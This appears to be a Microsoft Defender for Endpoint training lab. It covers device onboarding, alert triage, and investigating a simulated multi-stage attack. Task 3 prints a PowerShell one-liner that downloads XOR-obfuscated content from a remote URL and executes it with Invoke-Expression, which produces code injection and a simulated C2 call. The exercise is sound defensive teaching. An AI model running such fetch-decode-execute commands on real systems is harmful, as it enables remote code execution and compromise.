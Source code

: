 
# Module 4 - Lab 1 - Exercise 2 - Mitigate Attacks with Microsoft Defender for Endpoint

## Lab scenario

You are a Security Operations Analyst working at a company that is implementing Microsoft Defender for Endpoint. Your manager plans to onboard a few devices to provide insight into required changes to the Security Operations (SecOps) team response procedures.

To explore the Defender for Endpoint attack mitigation capabilities, you will run two simulated attacks.

## Lab objectives
 In this lab, you will perform the following:
- Task 1: Verify Device onboarding
- Task 2: Investigate alerts and incidents
- Task 3: Simulate an Attack
- Task 4: Investigate the simulated attack as a single incident

## Estimated timing: 60 minutes

  ![](../Media/Mod4_L1_Ex2.png)
  
### Task 1: Verify Device onboarding

In this task, you will confirm that the device is onboarded successfully and create a test alert.

1. If you're not already on the Microsoft Defender XDR portal in your Microsoft Edge browser, navigate to the [Security portal](https://security.microsoft.com), log in using **Email/Username: <inject key="AzureAdUserEmail"></inject>** and **Password: <inject key="AzureAdUserPassword"></inject>**, then select **Sign in**.

1. In the left-hand menu, under the **Assets** area, select **Devices (1)**. Please wait until a device appears **(2)** on the Devices page before you continue. Otherwise, you might need to repeat this task to see the alerts that will be generated later.

    ![Picture 1](../Media/vm1.png)

    >**Note:** If you've completed the onboarding process but no devices appear in the Devices list after an hour, there may be an issue with onboarding or connectivity.

1. Select **Settings (1)** from the left menu bar, then from the Settings page select **Endpoints (2)**.

    ![Picture 1](../Media/endpt1.png)

1. Select **Onboarding** in the Device Management section and make sure *"Windows 10 and 11"* is selected as an operating system. The *"First device onboarded"* message now shows *Completed*.

1. Scroll down and under the section *"2. Run a detection test"*, copy the detection test script by selecting the **Copy** button.  

1. In the Windows search bar of the WIN1 virtual machine, type **CMD (1)** and choose **Run as Administrator (2)** on the right pane for the Command Prompt app.

    ![Picture 1](../Media/pwrshell.png)

1. When the "User Account Control" window is shown, select **Yes** to allow the app to run. 

1. Paste the script by right-clicking in the **Administrator: Command Prompt** windows and press **Enter** to run it.

    > **Note:** The window automatically closes once the script runs successfully, and within a few minutes, alerts will be generated in the Microsoft Defender XDR portal.

### Task 2: Investigate alerts and incidents

In this task, you will investigate the alerts and incidents generated by the onboarding detection test script in the previous task.

1. In the Microsoft Defender XDR portal select **Incidents & alerts (1)** from the left menu bar, then select **Alerts (2)**.

    ![Picture 1](../Media/incedents.png)

1. In the **Alerts** pane, select the alert named **Suspicious PowerShell commandline** to load its details.

1. Review the **Alert story** timeline, and then review the **Details** and **Recommendations** tabs.

1. Under the alert **View Alert Details** tab you can scroll down to the *Incident details* section and select the **Suspicious Powershell command line on one endpoint** link to open the incident.

1. Select the **Manage incident** link **with a pencil icon** and a new window blade appears.

    ![Picture 1](../Media/2024-07-18.png)

1. Select the toggle **Assign to** and serach for **<inject key="AzureAdUserEmail"></inject>** and add your user account (Me) as the owner of the incident.

1. Under **Classification**, expand the drop-down menu.

1. Under **Informational, expected activity**, select **Security testing**.

1. Add any comments if desired and select **Save** to update the incident and Close.

    ![Picture 1](../Media/newcop.png)

1. Review the contents of the *Attack story, Alerts, Assets, Investigations, Evidence and Response*, and *Summary* tabs. Devices and Users are under the *Assets* tab. In a real incident, the *Attack story* tab displays the *Incident graph*. **Hint:** Some tabs might be hidden due to the size of your display. Select the ellipsis tab (...) to make them appear.

  > **Congratulations** on completing the task! Now, it's time to validate it. Here are the steps:
  > - Hit the Validate button for the corresponding task. You can proceed to the next task if you receive a success message.
  > - If not, carefully read the error message and retry the step, following the instructions in the lab guide.
  > - If you need any assistance, please contact us at labs-support@spektrasystems.com. We are available 24/7 to help you out.

  <validation step="698fed0a-fe5f-42a4-ae1c-7b77559325fc" />


### Task 3: Simulate an Attack

> **Warning:** This simulated attack provides a great hands-on learning experience. Only execute the attack as outlined in this lab when using the course-provided Azure tenant. You may explore other simulated attacks *after* completing this training course with the same tenant.

In this task, you will simulate an attack on the WIN1 virtual machine and verify that the attack is detected and mitigated by Microsoft Defender for Endpoint.

1. On the WIN1 virtual machine, *right-click* the **Start** button and choose **Windows PowerShell (Admin)**.

1. When the "User Account Control" window is shown, select **Yes** to allow the app to run.

1. Copy and paste the following simulation script into the PowerShell window and press **Enter** to run it:

    ```PowerShell
    [Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12;
    $xor = [System.Text.Encoding]::UTF8.GetBytes('WinATP-Intro-Injection');
    $base64String = (Invoke-WebRequest -URI "https://raw.githubusercontent.com/MicrosoftLearning/SC-200T00A-Microsoft-Security-Operations-Analyst/refs/heads/master/Allfiles/MTP_Fileless_Recon.txt" -UseBasicParsing).Content;Try{ $contentBytes = [System.Convert]::FromBase64String($base64String) } Catch { $contentBytes = [System.Convert]::FromBase64String($base64String.Substring(3)) };$i = 0;
    $decryptedBytes = @();$contentBytes.foreach{ $decryptedBytes += $_ -bxor $xor[$i];
    $i++; if ($i -eq $xor.Length) {$i = 0} }; Invoke-Expression ([System.Text.Encoding]::UTF8.GetString($decryptedBytes))
    ```

    >**Note:** If you encounter errors (in red) while running the script, open the Notepad app and paste the script into a blank file. Ensure that *word wrap* is enabled in Notepad. Then, copy and execute each line of the script separately in PowerShell.  
    Additionally, a PowerShell script (*attacksim.ps1*) was included in the files downloaded at the beginning of the labs. To run the script, open **Windows PowerShell (Admin)**, navigate to the *\Users\Admin\Desktop\Allfiles* folder, and enter:  

    ```powershell
    .\attacksim.ps1
    ```

   Press **Enter** to execute it.

1. The script will produce several lines of output and a message that it *Failed to resolve Domain Controllers in the domain*. A few seconds later, the *Notepad* app will open. A simulated attack code will be injected into Notepad. Keep the automatically generated Notepad instance open to experience the full scenario. The simulated attack code will attempt to communicate to an external IP address (simulating a C2 server).

### Task 4: Investigate the simulated attack as a single incident

In this task, you will investigate the simulated attack on the WIN1 virtual machine, treating it as a single incident in Microsoft Defender for Endpoint. This process will help you understand how to analyze security incidents and respond effectively.

1. In the Microsoft Defender XDR portal select **Incidents & alerts** from the left menu bar, then select **Incidents**.

1. A new incident called *Multi-stage incident involving Defense evasion & Discovery on one endpoint* is in the right pane. Select the incident name to load its details.

1. Under the *Attack story* tab, view the **Alerts** and **Incident details** panes to view the full **Incident graph**.

1. Mouse over and select the **Incident graph nodes** to review the *entities*.

1. Under the *Attack story* tab **Alerts** section (left-side) and select the **Play attack story** *Run* icon. This shows the attack timeline alert by alert and dynamically populates the *Incident graph*.

1. Review the contents of the *Attack story, Alerts, Assets, Investigations, Evidence and Response*, and *Summary* tabs. Devices and Users are under the *Assets* tab. **Hint:** Some tabs might be hidden due to the size of your display. Select the ellipsis tab (...) to make them appear.

1. Under the **Evidence and Response** tab, select **IP addresses** then select the displayed *IP address*. In the pop-up window review the IP address details scroll down and select the **Open IP address page** button.

1. Review the contents of the *Ip address* page *Overview, Incidents & alerts and Observed in organizations* tabs. Some tabs may not contain any information about the IP address.

## Review
In this lab, you have completed the following:
- Ran Simulated Attacks
- Investigated the Attacks
- Simulated an Attack
- Investigated the simulated attack as a single incident

## You have successfully completed the lab

